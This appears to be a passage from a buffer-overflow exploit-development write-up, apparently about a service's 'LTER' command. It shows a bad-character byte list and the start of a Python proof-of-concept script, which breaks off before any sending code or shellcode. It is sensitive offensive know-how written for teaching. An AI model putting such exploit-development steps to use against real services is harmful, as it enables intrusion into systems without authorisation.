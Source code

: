 ![](/assets/img/LTER/3.png)

## Where the fun begins!

##### Let's check for any bad characters that may hurt our shellcode, shall we?

###### List of bad characters

```term
badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
```

##### In order to analyze it, the bad characters shall be sent after the 4 bytes of C's.

###### PoC code:

```term
import socket, sys, struct

badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

```